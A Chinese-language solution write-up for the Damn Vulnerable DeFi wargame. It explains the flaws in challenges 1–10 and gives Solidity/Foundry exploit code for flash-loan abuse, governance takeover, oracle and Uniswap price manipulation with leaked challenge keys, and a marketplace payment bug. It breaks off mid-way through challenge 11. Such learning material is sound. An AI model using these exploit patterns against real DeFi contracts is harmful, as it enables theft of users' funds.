

# Damn Vulnerable Defi 解决方案
[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/) 是由[@tinchoabbate](https://twitter.com/tinchoabbate)创建的学习DeFi智能合约安全攻击的战争游戏.


使用 [Foundry](https://github.com/foundry-rs/foundry)  完成.


# #1 - Unstoppable

合约:

- [DamnValuableToken](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/DamnValuableToken.sol)  Token 合约
-  [UnstoppableLender](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/unstoppable/UnstoppableLender.sol)   借贷池合约
- [ReceiverUnstoppable](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/unstoppable/ReceiverUnstoppable.sol) 调用借贷池的闪电贷合约


完成条件:

借贷池里有 100 万 个 DVT 代币,免费提供闪电贷,你初始拥有 100 个 DVT 代币,你需要攻击使借贷池合约 flashloan 失效.


解决方案:

UnstoppableLender 合约 **flashLoan** 函数 在 **transfer** 代币到调用的合约前, 函数中有 **assert** 检查条件 `poolBalance == balanceBefore`,如果我们通过调用借贷池合约 **depositTokens** 函数存入代币是会正常更新 **poolBalance**, 能通过 assert 条件检查的 

```solidity
uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
assert(poolBalance == balanceBefore);
```

而调用 `DVT Token` 合约 **transfer** 直接向借贷池合约发送代币, 不会更新 **poolBalance**,而 **flashLoan** 函数的 assert 检查  **poolBalance == balanceBefore** 无法通过, `ReceiverUnstoppable`合约调用借贷池合约 **flashLoan** 函数将不再正常工作.


使用 foundry 编写测试:

```solidity
    function testExploit() public {
        vm.startPrank(attacker);
        dvt.transfer(address(unstoppableLender), 100e18);
        vm.stopPrank();   
        verify();
    }
```


[Unstoppable.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/30349eba073206fe6b1c9acd26930468e543e064/src/test/Unstoppable.t.sol#L59-L64)

```
forge test --match-contract Unstoppable -vvvv
```




# #2 - Naive receiver

合约:

- [NaiveReceiverLenderPool](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/naive-receiver/NaiveReceiverLenderPool.sol)  借贷池合约
- [FlashLoanReceiver](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/naive-receiver/FlashLoanReceiver.sol)   调用借贷池的闪电贷合约

完成条件:

有一个 `NaiveReceiverLenderPool` 借贷池合约提供了相当昂贵手续费的 ETH 闪电贷,余额为 1000 ETH,用户部署的 余额为 10 ETH 的 FlashLoanReceiver 合约与借贷池合约 **flashLoan** 函数交互接收 ETH.需要耗尽用户合约中的所有 ETH 资金.


解决方案:

 `NaiveReceiverLenderPool`合约 **flashLoan** 函数两个参数, borrower 为借款的合约的地址, borrowAmount 为借款的 ETH数.函数里 **functionCallWithValue**  发送借款 ETH 金额到借款的合约并调用借款合约的 `receiveEther` ,最后 **require** 检查借贷池的合约里余额得为借款前余额+ `FIXED_FEE` ,也就是说每笔闪电贷调用,用户合约需要支付 1 ETH  的手续费.

```solidity
uint256 private constant FIXED_FEE = 1 ether;

 function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {
	//...
        borrower.functionCallWithValue(
            abi.encodeWithSignature(
                "receiveEther(uint256)",
                FIXED_FEE
            ),
            borrowAmount
        );
        
        require(
            address(this).balance >= balanceBefore + FIXED_FEE,
            "Flash loan hasn't been paid back"
        );
    }
```


再看用户部署的 `FlashLoanReceiver` 合约,两个require,分别是检查调用者是否是借贷池合约,合约里的余额是否够完成闪电贷.

```solidity
    function receiveEther(uint256 fee) public payable {
        require(msg.sender == pool, "Sender must be pool");

        uint256 amountToBeRepaid = msg.value + fee;

        require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
        
        _executeActionDuringFlashLoan();
        
        // Return funds to pool
        pool.sendValue(amountToBeRepaid);
    }
```

也就是说只要 `NaiveReceiverLenderPool`合约 **flashLoan** 函数,传入用户部署的 `FlashLoanReceiver` 地址, 此时 msg.sender 为借贷池合约,能通过 require 检查,而用户合约需要每笔多支付 1 ETH的手续费发送到借贷池合约,调用 10次就能耗尽用户合约中的所有 ETH.

使用 foundry 编写测试:

[NaiveReceiver.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/30349eba073206fe6b1c9acd26930468e543e064/src/test/NaiveReceiver.t.sol#L48-L55)

```solidity
    function testExploit() public {
        vm.startPrank(attacker);
        while (address(flashLoanReceiver).balance != 0){
            naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver),1 ether);
        }
        vm.stopPrank();
        verify();
    }
```


```
forge test --match-contract NaiveReceiver -vvvv
```


# #3 - Truster

合约:

- [DamnValuableToken](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/DamnValuableToken.sol)  Token 合约
- [TrusterLenderPool](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/truster/TrusterLenderPool.sol) 借贷池合约

完成条件:

`TrusterLenderPool`借贷池有 100 万个 DVT 代币提供免费闪电贷,而你一无所有,你需要通过一笔交易取出借贷池里的所有代币.

解决方案:

直接看 `TrusterLenderPool` 的 **flashLoan** 函数,参数 target,和 data 传入可以直接让 `TrusterLenderPool`合约去call()调用任意合约的任意函数(永远不要相信用户的输入), **flashLoan** 函数最后面 **require()** 是保证闪电贷结束的额度得和调用前不变,所以不能在在 **target.functionCall(data)** 调用 dvt 代币合约的 **transfer()** 直接将池里的代币发送给我们,而是先通过 **approve()** 将代币先授权给我们,等闪电贷结束后再调用 dvt 代币合约 **transfer()** 将所有代币发送给我们
```solidity
    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```


使用 foundry 编写测试:
[Truster.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/b96aacfd662b555a42a225950a200665e86f8304/src/test/Truster.t.sol#L35-L42)

```solidity
    function testExploit() public {
        vm.startPrank(attacker);
        bytes memory approve_func_sign = abi.encodeWithSelector(bytes4(keccak256("approve(address,uint256)")), address(attacker), type(uint256).max);
        trusterLenderPool.flashLoan(0, address(attacker), address(dvt), approve_func_sign);
        dvt.transferFrom(address(trusterLenderPool), address(attacker), TOKENS_IN_POOL);
        vm.stopPrank();
        verfiy();
    }
```


```
forge test --match-contract Truster -vvvv
```


# #4 - Side entrance

合约:

- [SideEntranceLenderPool](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/side-entrance/SideEntranceLenderPool.sol)  借贷池合约

完成条件: 

`SideEntranceLenderPool` 合约允许任何人存入 ETH ,并可以在任何时间提取出,借贷池中有 1000 ETH 并提供免费的闪电贷,你需要清空借贷池的 ETH.

解决方案:

```solidity
 function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
```


部署个合约调用 `SideEntranceLenderPool`借贷池的 **flashLoan()**函数借出池子里全部的 ETH,借贷池合约会接口调用我们部署的恶意合约的  **execute()**函数，在 **execut()** 函数里 **call()** 借贷池 **deposit()** 函数将闪电贷借出的 ETH 存入借贷池合约,使得能通过  **require** 金额检查,完成这笔闪电贷,再调用 **withdraw()** 取出 ETH,完成清空借贷池的 ETH.

使用 foundry 编写测试:

[SideEntrance.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/test/SideEntrance.t.sol#L38-L68)

```solidity
   //..
    function testExploit() public {
        vm.startPrank(attacker);
        payload = new PayLoad(address(sideEntranceLenderPool));
        payload.start();
        vm.stopPrank();
        verfiy();
    }
//..    
contract PayLoad {
    IsideEntranceLenderPool public sideentrancelenderPool;
    constructor (address _target){
        sideentrancelenderPool = IsideEntranceLenderPool(_target);
    }

    function start() public {
        sideentrancelenderPool.flashLoan(1_000e18);
        sideentrancelenderPool.withdraw();
        selfdestruct(payable(msg.sender));
    }
        
    function execute() public payable {
       msg.sender.call{value: msg.value}(abi.encodeWithSignature("deposit()"));
    }

    receive() external payable{}
}
```

```
forge test --match-contract SideEntrance -vvvv
```


# #5 - The rewarder

合约:

- [DamnValuableToken](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/DamnValuableToken.sol)  Token 合约
- [FlashLoanerPool.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/the-rewarder/FlashLoanerPool.sol) 提供 DVT Token闪电贷的借贷池
- [RewardToken.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/the-rewarder/RewardToken.sol) 奖励 Token 合约
- [AccountingToken.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/the-rewarder/AccountingToken.sol) ERC20Snapshot 合约
- [TheRewarderPool.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/the-rewarder/TheRewarderPool.sol) DVT 存款 Pool 奖励合约

完成条件:

有一个 Pool 合约,每 5 天为存入DVT 代币的人提供代币奖励,Alice、Bob、Charlie 和 David 已经存入了一些 DVT 代币,并赢得了他们的奖励,你初始没有任何 DVT 代币,你需要利用闪电贷提供的 DVT 代币获取最多的代币奖励.

解决方案:

整个合约工作流程是 `TheRewarderPool` 是一个存放 DVT Token,为存入者 1 : 1 mint `AccountingToken`合约 Token,供`AccountingToken` 合约快照存入的代币数量/总量相关信息,每五天为一轮根据快照计算出要 mint 给用户的`RewardToken` 奖励代币数量 ,并为用户 mint 奖励 Token. 而 `TheRewarderPool` 的问题是 **distributeRewards()** 函数里,每次都会调用会判断是否时间是否已过去 5 天足以开启下一轮,创建一个新的 Token 存入信息快照,检查调用者是否已经取回了他们当前轮的奖励,没有则计算调用者奖励代币数量并 mint 给调用者. 也就是说编写一个合约在足以开启新的一轮时间点发起一笔闪电贷从 `FlashLoanerPool`借出 dvt 代币 **deposit()** 到 `TheRewarderPool` 合约,**distributeRewards()** 函数里会快照一个新的存入 dvt 的代币数量计算并 mint 给我们奖励代币,然后在这笔交易里 **withdraw()** 出 dvt 代币还给 `FlashLoanerPool`.(等于只短暂通过闪电贷借用了 dvt 代币,进行快照获得了大量奖励代币在一笔交易完成).

使用 foundry 编写测试:

[TheRewarderPool.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/test/TheRewarder.t.sol)

```
forge test --match-contract TheRewarder -vvvv
```

```solidity
contract PayLoad {
    uint public falshloan_amount;
    FlashLoanerPool flashLoanpool;
    TheRewarderPool rewarderpool;
    DamnValuableToken dvt;
    address public attacker;

    constructor (FlashLoanerPool _flashLoanPooladdr, TheRewarderPool _rewarderPooladdr, DamnValuableToken _DamnValuableTokenaddr) {
        flashLoanpool = _flashLoanPooladdr;
        rewarderpool = _rewarderPooladdr;
        dvt = _DamnValuableTokenaddr;
        attacker = msg.sender;
    }

    function startAttack() public {
        falshloan_amount = dvt.balanceOf(address(flashLoanpool));
        flashLoanpool.flashLoan(falshloan_amount);
    }

    function receiveFlashLoan(uint256 amount) public {
        dvt.approve(address(rewarderpool), falshloan_amount);
        rewarderpool.deposit(falshloan_amount);
        rewarderpool.withdraw(falshloan_amount);
        dvt.transfer(address(flashLoanpool), amount);
        rewarderpool.rewardToken().transfer(attacker, rewarderpool.rewardToken().balanceOf(address(this)));
    }
}

contract TheRewarder is Test{
	//..
    function testExploit() public {
        utils.mineTime(5 days);
        vm.startPrank(attacker);
        payload = new PayLoad(flashLoanerPool, theRewarderPool, dvt);
        payload.startAttack();
        vm.stopPrank();
        verfiy();
   	//..
    }
 }
```

 

# #6 - Selfie

合约:

- [DamnValuableTokenSnapshot](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/DamnValuableTokenSnapshot.sol) 具有快照扩展的 Token 合约
- [SelfiePool.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/selfie/SelfiePool.sol) 提供 DVT 代币的闪电贷
- [SimpleGovernance.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/selfie/SimpleGovernance.sol) 治理合约 (使用 DVT 代币进行治理)

完成条件:

一个新的酷借贷池已经启动！它现在提供 DVT 代币的闪电贷,包括一个非常奇特的治理机制来控制它,你的初始 DVT 代币为 0,需要清空 SelfiePool 池子里的 1.5 million DVT 代币.

解决方案:

首先看到 提供 DVT 代币闪电贷的 `selfiepool` 合约有一个 **drainAllFunds()** 函数可以发送池里的所有 DVT 代币到指定地址,有**onlyGovernance**  修饰符,只有 `SimpleGovernance` 治理合约可以调用,治理合约 **queueAction()** 发起提案添加到队列需要在快照具有一半以上的 DVT 代币, **executeAction()** 执行提案需要提案时间大于两天,也就是说可以利用闪电贷进行治理攻击,从 `selfiepool` 合约获取 1.5 million 的代币用于快照创建执行 **drainAllFunds()** 函数提案,等两天过后调用 **executeAction()** 执行提案清空 `selfiepool `池子 DVT 代币完成攻击.

使用 foundry 编写测试:

[Selfie.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/test/Selfie.t.sol) 

```solidity
contract PayLoad{
    address public attacker;
    uint256 public actionId;
    uint256 public constant falshloan_amount = 1_500_000e18;
    
    DamnValuableTokenSnapshot public dvt;
    SimpleGovernance public simplegovernance;
    SelfiePool public selfiePool;

    constructor (DamnValuableTokenSnapshot _dvtaddr, SimpleGovernance _simplegovernanceaddr, SelfiePool _selfiePooladdr) {
        dvt = _dvtaddr;
        simplegovernance = _simplegovernanceaddr;
        selfiePool = _selfiePooladdr;
        attacker = msg.sender;
    }

    function startAttack() public{
        selfiePool.flashLoan(falshloan_amount);     
    }

    function receiveTokens(address tokenAddr,uint256 amount) public {
        bytes memory _func_sign = abi.encodeWithSelector(bytes4(keccak256("drainAllFunds(address)")), attacker);

        dvt.snapshot();
        (actionId) = simplegovernance.queueAction(address(selfiePool), _func_sign, 0);
        dvt.transfer(address(selfiePool), amount);
    }
}

contract Selfie is Test {
//...
    function testExploit() public {
        vm.startPrank(attacker);
        payload = new PayLoad(dvtSnapshot, simpleGovernance, selfiePool);
        payload.startAttack();
        utils.mineTime(2 days);
        simpleGovernance.executeAction(payload.actionId());
        vm.stopPrank();  
        verfiy();
    }
//...    
}
```

```
forge test --match-contract Selfie -vvv
```


# #7 - Compromised

合约:

- [DamnValuableNFT.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/DamnValuableNFT.sol) NTF 合约
- [Exchange.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/compromised/Exchange.sol)  NFT 交易合约
- [TrustfulOracle.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/compromised/TrustfulOracle.sol) 预言机合约
- [TrustfulOracleInitializer.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/compromised/TrustfulOracleInitializer.sol) 预言机初始化合约

完成条件:

有一个奇怪的 HTTP 响应 

```
          HTTP/2 200 OK
          content-type: text/html
          content-language: en
          vary: Accept-Encoding
          server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
        
```

一个相关的链上交易所正在出售（价格高得离谱）名为“DVNFT”的收藏品，现在每个 999 ETH

该价格来自链上预言机，并基于三个受信任的价格报告源,分别为

`0xA73209FB1a42495120166736362A1DfA9F95A105`,`0xe92401A4d3af5E446d93D11EEc806b1462b39D15` ,`0x81A5D6E50C214044bE44cA0CB057fe119097850c`.

仅有 0.1 ETH, 需要窃取交易所中所有的 ETH.

解决方案:

首选对两段 HTTP 响应 hex 进行解码, 先 HEX -> STR为 base64,base64 解码后为两个私钥,是其中两个受信任的报价来源的外部账户私钥

`0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9` 

`0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48`


再看到 `Exchange` 合约的 NFT 的价格计算是来自 ` TrustfulOracle` 预言机 **getMedianPrice()** 函数,预言机里对价格的计算取来自受信任的报价源的三个报价的中值,这里我们掌控了两个私钥,也就可以操控价格,在调用 `buyOne()`函数时,用两个受信任的报价源有权限调用预言机合约  **postPrice()** 报价为 0,以很低的价格购买 NFT, **sellOne()** 出售 NFT 时将报价设高价格到足以窃取完 `Exchange` 交易合约里的所有 ETH.

使用 foundry 编写测试:

[Compromised.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/test/Compromised.t.sol) 

```solidity
    function testExploit() public {
        bytes memory buyOne_sign = abi.encodeWithSelector(bytes4(keccak256("buyOne()")));
        address TRUSTED_SOURCE1 = vm.addr(0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9);
        address TRUSTED_SOURCE2 = vm.addr(0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48);

        vm.prank(TRUSTED_SOURCE1);
        trustfulOracle.postPrice("DVNFT", 0);

        vm.prank(TRUSTED_SOURCE2);
        trustfulOracle.postPrice("DVNFT", 0);

        vm.prank(attacker);
        address(exchange).call{value: 0.05 ether}(buyOne_sign);

        vm.prank(TRUSTED_SOURCE1);
        trustfulOracle.postPrice("DVNFT", 9990 ether);

        vm.prank(TRUSTED_SOURCE2);
        trustfulOracle.postPrice("DVNFT", 9990 ether);

        vm.startPrank(attacker);
        damnValuableNFT.approve(address(exchange), 0);
        exchange.sellOne(0);
        vm.stopPrank();
        verfiy();
    }
```

```
forge test --match-contract Compromised -vvvv
```


# #8 - Puppet

合约:

- [PuppetPool.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/puppet/PuppetPool.sol) 借贷合约

题目要求:

有一个巨大的借贷池提供 DVT Token 借用,需要在存入两倍的借贷金额的 ETH  作为抵押品。该池目前有 100000 DVT 的流动性.

Uniswap v1 合约目前有 10 ETH 和 10 DVT 的流动性的池子,从余额 25 ETH 和 1000 DVT 开始,从借贷池中窃取所有的 DVT 代币.

解决方案:

`PuppetPool` 合约对 DVT 代币价格的获取来自 Uniswap V1 的池子流动性做计算,而这样很容易就操纵价格,首先在 Uniswap V1 将 1000 DVT 售出,这几乎等于掏空了池子里的 ETH,使得 DVT 价格极低,再在 PuppetPool 以极低的价格 borrow 完池子里的 100000 DVT 代币.

使用 foundry 编写测试:

[PuppetPool.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/test/PuppetPool.t.sol) 

 ```solidity
     function testExploit() public {
         vm.startPrank(attacker);
         dvt.approve(address(uniswapExchange), type(uint256).max);
         uniswapExchange.tokenToEthSwapInput(dvt.balanceOf(attacker), 9 ether, block.timestamp + 100000);
         puppetPool.borrow{value: attacker.balance}(dvt.balanceOf(address(puppetPool)));
         vm.stopPrank();
         verfiy();
     }
 ```

```
forge test --match-contract PuppetPool -vvvv
```


# #9 - Puppet v2

合约:

- [PuppetV2Pool.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/puppet-v2/PuppetV2Pool.sol) 借贷合约

题目要求:

上一题接借贷池的 DEV 说他们已经吸取了教训。并且刚刚发布了一个全新版本,使用 Uniswap v2 交易所作为预言机,以及使用推荐的 `UniswapV2Library`.你从初始余额 20 ETH 和 10000 DVT 代币开始,需要掏空借贷池余额为 100 万个 DVT 代币.

解决方案:

看看 `PuppetV2Pool.sol` 合约, 看到 **calculateDepositOfWETHRequired()** 这次需要存入借出的 DVT 代币的 3倍金额的 WETH,再看看**_getOracleQuote()  ** 对 DVT 价格的获取,先通过 **UniswapV2Library.getReserves()** 获取两个代币的储备量,再使用**UniswapV2Library.quote()**  进行计算,然而计算方式和之前 v1 并没有多大区别,还是能轻松 swap 改变池子储备量,对价格进行操纵,步骤和上一题差不多,只需要改成 v2 的交换函数,和把 ETH 包装成 WETH.

使用 foundry 编写测试:

[PuppetV2Pool.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/test/PuppetV2Pool.t.sol) 

```solidity
    function testExploit() public {
        vm.startPrank(attacker);
        address[] memory path = new address[](2);
        path[0] = address(dvt);
        path[1] = address(weth);

        dvt.approve(address(uniswapV2Router), type(uint256).max);
        uniswapV2Router.swapExactTokensForETH(ATTACKER_INITIAL_TOKEN_BALANCE, 1 ether, path, attacker, DEADLINE);
        weth.deposit{value: attacker.balance}();
        weth.withdraw(weth.balanceOf(msg.sender));
        weth.approve(address(puppetV2Pool), type(uint256).max);
        puppetV2Pool.borrow(dvt.balanceOf(address(puppetV2Pool)));
        vm.stopPrank();
        verfiy();
    }
```

```
forge test --match-contract PuppetV2 -vvvv
```


# #10 - Free rider

合约:

- [FreeRiderNFTMarketplace.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/free-rider/FreeRiderNFTMarketplace.sol) NFT 交易市场
- [FreeRiderBuyer.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/free-rider/FreeRiderBuyer.sol)  收购 NFT 合约

题目要求:

有 6 个 NFT 在 NFT 交易市场出售,每个 15 ETH.一位买家与您分享了一个 alpha: NFT 交易市场有漏洞,所有的  NFT 都可以被拿走,然而买家不知道怎么利用.因此于买家达成一个协议：为愿意取出 NFT 交易市6个 NFT 并将其发送到 收购 NFT 合约人发送 45 ETH.你的初始余额只有0.5 ETH

解决方案:

`FreeRiderNFTMarketplace` NFT 交易市场存在的漏洞就是 **buyMany()** 函数传入要购买的多个 NFT Tokenid 数组 for 循环调用 **_buyOne()** 函数 对**msg.value** 错误的判断, **buyMany()** 购买多个 NFT 只需要发送一个 NFT 价格 15 ETH 就能通过 require 检查,而我们初始余额只有 0.5 ETH,就需要从 Uniswap 的池子里 **flashswap()** 借用 15 WETH,换成 ETH,花费 15 ETH 调用 **buyMany()** 就能从 NFT 交易市场里获得 6 个 NFT,发送给 **FreeRiderBuyer** 合约,从 **onERC721Received()** hook 里获得买家承诺的 45  ETH,把 ETH + flashswap free 包装成 WETH 还给 Uniswap ,最终获得 35 ETH左右,完成挑战.

使用 foundry 编写测试:

[FreeRider.t.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/main/src/test/FreeRider.t.sol) 

```solidity
contract PayLoad is IERC721Receiver{
    IUniswapV2Pair uniswapv2pair;
    WETH9 weth;
    FreeRiderNFTMarketplace freeridernftmarketplace;
    FreeRiderBuyer freeriderbuyer;
    DamnValuableNFT dvnft;
    uint256 [] TokenIdCollections = [0, 1, 2, 3, 4, 5];
    constructor(IUniswapV2Pair _uniswapv2pairaddr, WETH9 _wethaddr, FreeRiderNFTMarketplace _freeridernftmarketplaceaddr, FreeRiderBuyer _freeriderbuyeraddr, DamnValuableNFT _dvnftaddr) {
        uniswapv2pair = _uniswapv2pairaddr;
        weth = _wethaddr;
        freeridernftmarketplace = _freeridernftmarketplaceaddr;
        freeriderbuyer = _freeriderbuyeraddr;
        dvnft = _dvnftaddr;
    }
    function Start() public payable{
        uint amount0Out = 0;
        uint amount1Out = 15 ether;
        bytes memory data = abi.encode(address(weth), 15 ether);

        uniswapv2pair.swap(amount0Out, amount1Out, address(this), data);
        
    }
    function uniswapV2Call(
    address _sender,
    uint _amount0,
    uint _amount1,
    bytes calldata _data
  ) external {
    require(msg.sender == address(uniswapv2pair), "!no pair,no pain");
    (address tokenBorrow, uint amount) = abi.decode(_data, (address, uint));
    uint fee = ((amount * 3) / 997) + 1;
    uint amountToRepay = amount + fee;

    weth.withdraw(15 ether);
    freeridernftmarketplace.buyMany{value: 15 ether}(TokenIdCollections);
    for(uint8 i = 0; i < TokenIdCollections.length; i++) {
        dvnft.safeTransferFrom(address(this), address(freeriderbuyer), i);
    }
    weth.deposit{value: amountToRepay}();
    weth.transfer(address(uniswapv2pair), amountToRepay);
    }

    function onERC721Received(
        address,
        address,
        uint256 _tokenId,
        bytes memory
    )
        external
        override
        returns (bytes4) 
    {
        return IERC721Receiver.onERC721Received.selector;
    }
    
    fallback() external payable{}
}

contract FreeRider is Test {
//..
    function testExploit() public {
        vm.startPrank(attacker, attacker);
        payload = new PayLoad(uniswapV2Pair, weth, freeRiderNFTMarketplace, freeRiderBuyer, damnValuableNFT);
        payload.Start();
        vm.stopPrank();
        verfiy();
    }
//..
}
```

```
forge test --match-contract FreeRider -vvvv
```


# #11 - Backdoor

合约:

- [GnosisSafeProxyFactory.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/lib/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol) GnosisSafe 工厂合约
- [GnosisSafeProxy.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/lib/safe-contracts/contracts/proxies/GnosisSafeProxy.sol) GnosisSafe 代理合约
- [GnosisSafe.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/lib/safe-contracts/contracts/GnosisSafe.sol) GnosisSafe 实现合约
- [WalletRegistry.sol](https://github.com/Poor4ever/damn-vulnerable-defi-solution/blob/src/backdoor/WalletRegistry.sol) 钱包注册表合约

题目要求:

为了激励在他们的团队中创建更安全的钱包，有人部署了 Gnosis Safe 钱包注册表合约。当团队中有人部署钱包时,将获得 10 个 DVT 代币的奖励.

为确保一切安全无虞，注册表与 Gnosis Safe Proxy Factory 工厂合约紧密集成，并进行了一些额外的安全检查.

目前有四个人部署钱包可获得代币奖励,分别为：Alice、Bob、Charlie 和 David,注册表合约里有 40 个 DVT 代币提供奖励

目标是从注册表合约中获取所有 DVT 代币,在单笔交易中.

解决方案:

这道题花费了我很多时间去阅读学习 Gnosis Safe 的合约代码,以了解合约的架构,简单把完成这道题需要知道的点写下来

TL;DR

比较重要的 三个合约

`GnosisSafe.sol` singleton,也可以说成是逻辑合约 或 实现合约 

`GnosisSafeProxy.sol `代理合约

`GnosisSafeProxyFactory.sol` 用于创建代理合约 


`GnosisSafeProxyFactory` 为工厂合约,遵循最小代理合约模式为每一个多签钱包创建一个  `GnosisSafeProxy` 代理合约,通过`delegatecall` 委托调用 `GnosisSafe` 逻辑合约,执行的上下文和存储改变是在代理合约.


**GnosisSafeProxy.sol** 只有构造函数 和 **fallback** 函数.

构造函数用于设置逻辑合约地址,也就是 **GnosisSafe** 合约地址

```solidity
    constructor(address _singleton) {
        require(_singleton != address(0), "Invalid singleton address provided");
        singleton = _singleton;
    }
```

**fallback()** 回退函数里内联汇编委托调用逻辑合约,执行 GnosisSafe 的逻辑,改变 GnosisSafeProxy 的存储状态. 如果 calldata = 0xa619486e ( masterCopy()的函数选择器 ), 则返回逻辑合约的地址

```solidity
    fallback() external payable {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            let _singleton := and(sload(0), 0xffffffffffffffffffffffffffffffffffffffff)
            // 0xa619486e == keccak("masterCopy()"). The value is right padded to 32-bytes with 0s
            if eq(calldataload(0), 0xa619486e00000000000000000000000000000000000000000000000000000000) {
                mstore(0, _singleton)
                return(0, 0x20)
            }
            calldatacopy(0, 0, calldatasize())
            let success := delegatecall(gas(), _singleton, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            if eq(success, 0) {
                revert(0, returndatasize())
            }
            return(0, returndatasize())
        }
    }
```

`GnosisSafeProxy.sol` 多签钱包的逻辑的实现合约. **setup(address[],uint256,address,bytes,address,address,uint256,address)** : **0xb63e800d** 函数用于初始化合约

```solidity
    function setup(
        address[] calldata _owners, //多签钱包所有者列表
        uint256 _threshold, //多签钱包执行交易所需要的确认数量
        address to, //可选的委托调用地址
        bytes calldata data, //委托调用data
        address fallbackHandler, //设置多签钱包的fallbackHandler地址
        address paymentToken, //付款token 地址
        uint256 payment, //付款金额
        address payable  paymentReceiver //付款接收者
    )
```

